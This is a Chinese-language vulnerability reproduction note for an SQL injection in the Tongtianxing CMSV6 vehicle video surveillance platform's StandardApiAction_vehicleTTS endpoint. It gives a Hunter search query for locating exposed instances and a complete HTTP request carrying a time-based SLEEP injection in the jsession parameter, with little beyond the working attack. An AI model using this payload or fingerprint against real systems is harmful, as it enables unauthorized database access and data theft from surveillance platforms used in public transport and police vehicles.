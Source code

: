 # 通天星CMSV6车载视频监控平台 StandardApiAction_vehicleTTS存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台StandardApiAction_vehicleTTS存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/cz217sMk_C1P0rEd/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-644770.png)

# 四、漏洞复现
```plain
GET /StandardApiAction_vehicleTTS.action?DevIDNO=1&Text=x&jsession=2C0EB587191F68C441F128919862AC11%27%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(3)))DpjE)--%20gtMe HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8D45F4B70B77ED88CCD43B3050A2934F
Connection: close
```

![1706887910425-9c6df7cf-28b3-403c-a048-e666ce8cf4af.png](./img/cz217sMk_C1P0rEd/1706887910425-9c6df7cf-28b3-403c-a048-e666ce8cf4af-848983.png)

```plain
/StandardApiAction_vehicleTTS.action?DevIDNO=1&Text=x&jsession=2C0EB587191F68C441F128919862AC11
```

![1706888743695-736d4eba-5807-4067-ab5b-db94423a9e94.png](./img/cz217sMk_C1P0rEd/1706888743695-736d4eba-5807-4067-ab5b-db94423a9e94-050317.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dm6snum2k0g80c2g>